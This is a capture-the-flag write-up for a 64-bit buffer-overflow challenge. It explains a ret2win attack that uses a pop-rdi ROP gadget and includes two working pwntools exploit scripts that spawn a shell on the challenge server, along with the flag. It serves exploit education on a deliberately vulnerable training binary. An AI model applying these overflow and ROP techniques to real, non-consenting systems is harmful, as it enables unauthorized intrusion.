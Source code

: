 # Call Me Maybe

---

### Challenge Description

> Want a shell? Just give it a call! You'll to show some verification though.

> Interact with the service at: 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:3020

[callmemaybe.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330465/callmemaybe.zip)

---

### Solution

Running the binary, we see that it takes in an input Contact, and calls the contact. Maybe you could try calling yourself on this service...

We look at our source code.

```c
void shell(int checker)

{
    char command[8] = "/bin/sh\x00";
    if (checker == 0xDEADBEEF) {
        system(command);
    } else {
        puts("Unauthorized.");
    }
}

int main()
{
    char contact[64];
    ... ... (some long useless ascii text)
    printf("Enter Contact => ");
    scanf("%s", contact);
    printf("Calling %s...\n", contact);
    return 0;
}

```

As we can see, it takes in an input with scanf, and does not limit the number of bytes of input. 

It stores our input into contact which only holds 64 bytes of input.

This gives us a buffer overflow.

We can also see that there is a `shell(int checker)` function which pops us a shell. This is probably our objective, to pop a shell on the remote service.

The function takes in an argument and check it against '0xDEADBEEF' to give us our shell.

How can we possibly call the shell function? If you are unsure, read this [shell](https://github.com/caprinux/Cyberthon-Training/tree/main/Livestream%20Training/shell) from Cyberthon live-stream training which talks about ret2win and goes in depth to explain it.

So the idea is that you can overflow Contact to overwrite return address and return to the Shell() function.

However, how do we send an argument to shell to pass the check and gives us our shell?

We have to go back to assembly and how arguments are taken in.

In AMD64, or 64 bit binaries, when any function is called, i.e. printf, scanf, puts etc. an argument is passed to the function. 

This argument is passed through registers, RDI, RSI, RDX.

In this case, since it only takes in 1 argument, and compares it, it will look something like this in assembly:

```asm
mov DWORD PTR [rbp-0x14], rdi
cmp DWORD PTR [rbp-0x14], 0xdeadbeef
```

The argument in RDI will be stored on the stack and compared against 0xDEADBEEF.

The question now is: How do we put an argument into the register? 

This is where [Return Oriented Programming](https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html) comes in. 

The crux of the idea is that, our binary contains many small instructions that we can return to. These small instructions are called gadgets.

Since we know how to overflow the Contact variable and take control of the return address, if we can find a gadget that does `pop RDI ; ret`, we can return to that gadget, pop a value into rdi, and then call the shell function.

How do we find ROP gadgets then? This tool will be ur best friend,[ROPGadget Tool](https://github.com/JonathanSalwan/ROPgadget).

Now that we have everything, let's think about our exploit.

Contact holds 64 bytes. So to overflow contacts and reach our return address, we will need a buffer of 64 + 8 bytes.

Next, we find our pop rdi gadget. 

![image](https://user-images.githubusercontent.com/76640319/115134028-61418600-a03f-11eb-827b-727ff99031ac.png)

Got it. Our `pop RDI ; ret` gadget is at 0x400873.

Now we find the address of our shell function.

![image](https://user-images.githubusercontent.com/76640319/115134040-7b7b6400-a03f-11eb-8978-42d6357b0157.png)

Got it. Our shell function is at 0x4006ea. 

Let's also get a `ret` gadget to make things cleaner when we return to `pop rdi` after our main() function.

![image](https://user-images.githubusercontent.com/76640319/115134093-ecbb1700-a03f-11eb-984a-fba9f41f0885.png)

Got it. Our ret gadget is at 0x40055e

Let's craft our exploit now.

```py
from pwn import * # import pwntool library

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201) # connect to remote service

payload = ''

payload += b"A"*64 + b"A" * 8 # overflow our buffer
payload += p64(0x40055e) # ret gadget
payload += p64(0x400873) # pop rdi gadget
payload += p64(0xDEADBEEF) # argument
payload += p64(0x4006ea) # ret to shell function

p.sendline(payload) # send payload
p.interactive() # interact with service
```

![image](https://user-images.githubusercontent.com/76640319/115134169-70750380-a040-11eb-89d6-2bc0943cfe01.png)

```
CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}
```

---

### Teaser

Can we do this more efficiently perhaps?

Here's a script for thought

```py
from pwn import *

HOST = '3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg'
PORT = '30201'

p = remote(HOST, PORT)

context.binary = elf = ELF('callmemaybe')

rop = ROP(elf)
rop.call(rop.ret)
rop.shell(0xdeadbeef)

log.info(rop.dump())

p.sendlineafter("=> ", flat({ 72: rop.chain() }))
p.interactive()

```
